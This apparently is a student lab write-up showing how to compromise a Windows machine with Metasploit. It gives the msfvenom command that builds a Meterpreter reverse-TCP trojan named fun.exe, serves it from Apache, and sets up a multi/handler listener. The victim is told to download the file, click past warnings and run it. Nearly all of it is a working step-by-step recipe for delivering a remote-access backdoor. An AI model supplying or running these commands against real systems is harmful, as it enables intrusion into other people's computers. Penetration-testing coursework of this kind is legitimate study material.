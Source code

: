 ### PROGRAM:

Find the attackers ip address using ifconfig

### Output:
<img width="822" height="338" alt="image" src="https://github.com/user-attachments/assets/cb3fe711-abe6-489a-a7c9-3d1a8df04830" />



Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe```

### Output:

<img width="960" height="146" alt="image" src="https://github.com/user-attachments/assets/38b403c2-2d9e-409a-bc52-d3bdeb5e7b95" />


copy the fun.exe into the apache ```/var/www/html ```folder

<img width="447" height="91" alt="image" src="https://github.com/user-attachments/assets/27635df4-f2c4-46b4-87dc-4fa68c091868" />


Start apache server ```sudo systemctl apache2 start``` 


<img width="819" height="217" alt="image" src="https://github.com/user-attachments/assets/907eda9d-f52d-49a9-9182-0fc21b94eed3" />

Check the status of apache2 ```sudo apache2 status```
<img width="1129" height="705" alt="image" src="https://github.com/user-attachments/assets/d218edd3-92db-4a25-ba22-1373739560eb" />


Invoke msfconsole:
<img width="1193" height="874" alt="image" src="https://github.com/user-attachments/assets/eb898d0d-9c03-4ff5-b763-481988581345" />

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server ```use multi/handler``` ```set PAYLOAD windows/meterpreter/reverse_tcp``` ```set LHOST 0.0.0.0``` ```exploit```

### Output 
<img width="870" height="221" alt="image" src="https://github.com/user-attachments/assets/8af165cd-c95b-4ecf-9297-a95c4ad646f6" />



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://192.168.1.2/fun.exe``` The file "fun.exe" downloads.



Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit





## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

